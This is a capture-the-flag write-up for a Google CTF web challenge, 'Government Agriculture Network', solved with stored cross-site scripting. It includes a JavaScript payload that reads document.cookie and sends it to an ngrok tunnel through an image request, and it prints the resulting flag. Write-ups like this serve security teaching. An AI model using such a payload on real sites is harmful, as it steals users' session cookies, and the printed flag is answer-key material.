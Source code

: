 # Description
## Government Agriculture Network
Label: web

Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here.

Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child.

The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity.

You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to rescue it.

# Solution
This one just links to a site `https://govagriculture.web.ctfcompetition.com`. The site just contains 2 images, and a input along with a submit button to create a post. There is also an admin link in the top nav bar. Clicking the admin link just lead to `https://govagriculture.web.ctfcompetition.com/admin` but redirected back to the main page. Clicking the submitted button did a POST to `https://govagriculture.web.ctfcompetition.com/post` with a response page that just said `Your post was submitted for review. Administator will take a look shortly. `. Nothing else happens afterwards. I was stuck on this for a while as I had no idea what to do since the submit or admin links did not appear to do anything. As the name of the task implies, an xss exploit is used somehow but I couldn't figure out how. After spending a lot of time clicking around, I saw a hint that creating a post would get a fake 'admin' on the server to view the post. Without that hint I would be wasting a lot more time.

So now with that hint, I assumed that I would have to use xss to grab the cookies when the admin viewed the page and then send it back somehome. Unsure if my ISP even let me expose a webserver, I setup a tunnel using `ngrok`. All I did was run `ngrok http 80` and did not even need to setup a server since all I needed was a way to see the data. After setting that up, I entered this script as the post contents
```js
<script>
var data = btoa(document.cookie);
document.write("<img src=\"https://<ngrok-ip>.ngrok.io/?data=" + data + "\">");
</script>
```
The idea is that the cookies would be ecoded and sent to the endpoint through a request when the image tries to load.

After hitting submit, I looked in the dashboard and saw that indeed a request had been made to the url along with the cookies as a query parameter. A quick decode and we have our flag `CTF{8aaa2f34b392b415601804c2f5f0f24e}`